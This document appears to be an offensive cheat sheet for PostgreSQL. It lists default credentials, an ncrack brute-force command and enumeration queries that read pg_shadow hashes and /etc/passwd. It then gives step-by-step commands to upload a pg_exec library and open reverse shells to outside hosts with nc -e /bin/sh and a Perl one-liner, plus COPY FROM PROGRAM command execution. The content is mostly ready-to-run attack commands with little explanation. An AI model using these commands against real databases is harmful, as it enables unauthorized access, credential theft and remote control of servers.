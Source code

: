 #### default postgresql credentials
```bash
    postgres : postgres
    postgres : password
    postgres : admin
    admin : admin
    admin : password
```


#### bruteforce postgresql
```bash
ncrack psql://sqlserver -u postgres -P /usr/share/wordlists/rockyou.txt
```


#### postgresql emumeration
[walkthrough example](https://www.trenchesofit.com/2021/02/01/offensive-security-proving-grounds-nibbles-write-up-no-metasploit/)

```bash
postgres>
    SELECT usename, passwd FROM pg_shadow —priv;
    select pg_read_file('/etc/passwd');
    select pg_ls_dir('/home/username');
    \du
    \l
    select pg_ls_dir('./');
    select pg_read_file('postgresql.auto.conf', 66, 12);
    create table passwd (data TEXT);
        copy docs from '/etc/passwd';
```

#### postgresql reverse shell
```bash
select version();
    curl https://github.com/Dionach/pgexec/blob/master/libraries/pg_exec-9.6.so -O pg_exec.so
    select lo_creat(-1); # used in LOID
    split -b 2048 pg_exec.so
    CNT=0; for f in x*; do echo '\set c'${CNT}' `base64 -w 0 '${f}'`'; echo 'INSERT INTO pg_largeobject (loid, pageno, data) values ('${LOID}', '${CNT}', decode(:'"'"c${CNT}"'"', '"'"'base64'"'"'));'; CNT=$(( CNT + 1 )); done > upload.sql
    \include upload.sql
    select lo_export(16391, '/tmp/pg_exec.so');
    CREATE FUNCTION sys(cstring) RETURNS int AS '/tmp/pg_exec.so', 'pg_exec' LANGUAGE 'c' STRICT;
    # nc -l -p 4444
    select sys('nc -e /bin/sh 172.16.65.140 4444');
    python -c 'import pty; pty.spawn("/bin/sh")'
```
```bash
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM ‘id’;
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

> oneliner
```bash
COPY files FROM PROGRAM ‘perl -MIO -e ‘’$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,”192.168.49.214:9001");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’’’;

```


